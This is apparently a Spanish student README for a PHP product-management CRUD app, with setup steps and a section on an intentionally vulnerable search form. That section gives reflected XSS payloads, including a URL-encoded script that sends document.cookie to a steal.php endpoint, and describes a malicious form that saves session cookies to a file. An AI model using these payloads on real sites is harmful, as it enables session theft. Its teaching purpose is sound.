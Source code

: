 CRUDPHP

CRUDPHP es una aplicación web en PHP que permite a los usuarios registrarse, iniciar sesión y gestionar productos en una base de datos. Ofrece funcionalidades de Crear, Leer, Actualizar y Eliminar productos.

Funcionalidades

    - Registro de usuario: Permite crear cuentas de usuario.
    - Inicio de sesión: Acceso con nombre de usuario y contraseña.
    - CRUD de productos:
        - Crear: Añadir nuevos productos.
        - Leer: Ver lista de productos.
        - Actualizar: Editar productos existentes.
        - Eliminar: Borrar productos de la base de datos.

Como usar la aplicacion

Opción 1: Usando un servidor web local XAAMP

- Crea la base de datos `crudphp` en MySQL
   - Accede a `http://localhost/phpmyadmin/` en tu navegador.
   - Crea una nueva base de datos llamada `crudphp`.

- Coloca los archivos del proyecto en el directorio adecuado
   - Si usas XAMPP, coloca los archivos en `C:/xampp/htdocs/CRUDPHP/`.

- Accede a la aplicación en el navegador
   - Registro de usuario: `http://localhost/FrontEnd/FormularioRegistro/FormularioRegistro.html`.
   - Inicio de sesión: `http://localhost/FrontEnd/FormularioLogin/FormularioLogin.html`.
   - Gestión de productos: `http://localhost/FrontEnd/Crud/ListadoDeProductos.php`.


Opcion 2 : Usando Docker

- Clona el repositorio del proyecto : git clone https://github.com/iesmartinezm/CRUDPHP.git

- Accede a la carpeta CRUDPHP

- Abre una CMD en esa ubicacion y escribe "docker-compose up --build", para la primera vez que quieras usar la aplicacion, a partir de entonces solo tendras que escribir "docker-compose up" para usarla.

- Accede a la aplicacion desde tu navegador usando localhost


APLICACION ACTUAL SIN AÑADIR FORMULARIO DE BUSQUEDA

Mi aplicacion actual no es vulnerable a Reflected XSS dado que los puntos de la aplicacion deonde se muestran datos ingresados por el usuario, como los formularios que ya estan implementados en la misma, utilizan la funcion htmlspecialchars() para verificar que las entradas se conviertan en sus equivalentes HTML, evitando asi que puedan ser interpretadas como codigo JavaScript. 


NUEVO FORMULARIO DE BUSQUEDA

Se ha agregado la funcionalidad de un formulario de busqueda dentro del listado de productos.
Este formulario si que es vulnerable a Reflected XSS dado que no utiliza htmlspecial chars para convertir las consultas a HTML, por lo que un atacante podria obtener la cookie de sesion si inserta un script dentro de la URL

Apartado 1 : Formulario con GET

Esta seria la URL que veria una persona que hace una busqueda normal dentro del formulario : 

http://localhost/FrontEnd/Crud/ListadoDeProductos.php?search=<termino_de_busqueda>

Esta seria una forma de obtener la cookie de sesion que podria usar un atacante malicioso: 

http://localhost/FrontEnd/Crud/ListadoDeProductos.php?search=<script>alert(document.cookie);</script>

- Si queremos que la cookie de sesion se almacene en un archivo para poder robarla, el usuario debera ejecutar este enlace

http://localhost/FrontEnd/Crud/ListadoDeProductos.php?search=%3Cscript%3Edocument.location%3D%27http%3A%2F%2Flocalhost%2FFrontEnd%2FCrud%2Fsteal.php%3Fcookie%3D%27%2BencodeURIComponent(document.cookie)%3B%3C%2Fscript%3E


Apartado 2 : Formulario con POST

Dentro de la pagina con el listado de productos, hay un boton que lleva a un formulario malicioso.
En el formulario, el usuario escribirá su email, o lo que quiera, y la cookie de sesion se guardara en un archivo de texto llamado cookies_robadas_post.txt.

El enlace al formulario malicioso es :

http://localhost/FrontEnd/Crud/MaliciosoPost/malicioso.php

Nos mostrar una alerta con la cookie de sesion del usuario logueado


